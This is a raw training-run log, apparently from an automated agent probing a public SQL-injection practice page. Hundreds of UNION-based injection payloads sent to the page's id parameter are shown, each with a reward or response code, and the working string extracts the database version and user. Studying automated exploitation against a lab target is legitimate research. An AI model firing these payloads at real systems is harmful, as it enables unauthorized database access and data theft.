https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server re

  0%|          | 1034/1000000 [6:14:08<7920:33:45, 28.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1035/1000000 [6:14:09<5619:34:45, 20.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --

  0%|          | 1036/1000000 [6:14:47<7120:19:20, 25.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1037/1000000 [6:14:48<5065:40:38, 18.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1038/1000000 [6:14:49<3627:32:52, 13.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1039/1000000 [6:14:50<2624:36:08,  9.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1040/1000000 [6:14:51<1915:37:25,  6.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1041/1000000 [6:14:52<1379:17:26,  4.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1042/1000000 [6:14:53<1042:49:02,  3.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1043/1000000 [6:14:53<804:02:16,  2.90s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'uni

  0%|          | 1044/1000000 [6:16:30<8634:10:46, 31.12s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1045/1000000 [6:16:32<6205:04:53, 22.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1046/1000000 [6:16:34<4519:03:03, 16.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1047/1000000 [6:16:35<3244:29:05, 11.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1048/1000000 [6:16:37<2376:18:40,  8.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1049/1000000 [6:16:38<1749:29:54,  6.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union sele

  0%|          | 1050/1000000 [6:17:06<3612:06:42, 13.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1051/1000000 [6:17:07<2609:56:23,  9.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1052/1000000 [6:17:08<1902:38:59,  6.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union selec

  0%|          | 1053/1000000 [6:17:39<3867:43:43, 13.94s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1054/1000000 [6:17:40<2783:53:04, 10.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1055/1000000 [6:17:41<2031:50:31,  7.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 1056/1000000 [6:18:57<7738:26:30, 27.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervist

  0%|          | 1057/1000000 [6:22:15<21925:10:24, 79.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1058/1000000 [6:22:16<15438:50:40, 55.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1059/1000000 [6:22:17<10890:25:18, 39.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1060/1000000 [6:22:21<7958:18:48, 28.68s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1061/1000000 [6:22:22<5650:38:01, 20.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1062/1000000 [6:22:24<4145:03:25, 14.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1063/1000000 [6:22:25<2993:34:51, 10.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --


  0%|          | 1064/1000000 [6:23:01<5080:06:01, 18.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https

  0%|          | 1065/1000000 [6:23:15<4717:26:44, 17.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1066/1000000 [6:23:16<3379:40:39, 12.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1067/1000000 [6:23:17<2443:20:04,  8.81s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select

  0%|          | 1068/1000000 [6:24:28<7615:22:59, 27.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1069/1000000 [6:24:29<5407:48:23, 19.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zi

  0%|          | 1070/1000000 [6:24:51<5639:37:51, 20.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1071/1000000 [6:24:52<4029:09:29, 14.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1072/1000000 [6:24:53<2902:49:30, 10.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1073/1000000 [6:25:05<2990:00:04, 10.78s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1074/1000000 [6:25:06<2169:43:56,  7.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 1075/1000000 [6:28:59<20992:11:28, 75.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version

  0%|          | 1076/1000000 [6:31:12<25708:13:58, 92.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1077/1000000 [6:31:13<18071:01:33, 65.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax er

  0%|          | 1078/1000000 [6:31:27<13847:45:10, 49.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax e

  0%|          | 1079/1000000 [6:31:55<11983:50:36, 43.19s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1080/1000000 [6:31:56<8465:03:29, 30.51s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),us

  0%|          | 1081/1000000 [6:32:36<9257:19:32, 33.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1082/1000000 [6:32:37<6561:42:49, 23.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1083/1000000 [6:32:38<4677:02:32, 16.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1084/1000000 [6:32:39<3358:17:29, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,ver

  0%|          | 1085/1000000 [6:32:47<3061:09:49, 11.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1086/1000000 [6:32:49<2300:07:25,  8.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zix

  0%|          | 1087/1000000 [6:33:13<3575:51:02, 12.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1088/1000000 [6:33:14<2583:39:56,  9.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query w

  0%|          | 1089/1000000 [6:35:36<13656:15:00, 49.22s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1090/1000000 [6:35:37<9636:15:55, 34.73s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1091/1000000 [6:35:38<6829:03:17, 24.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc numbe

  0%|          | 1092/1000000 [6:36:54<11084:15:50, 39.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
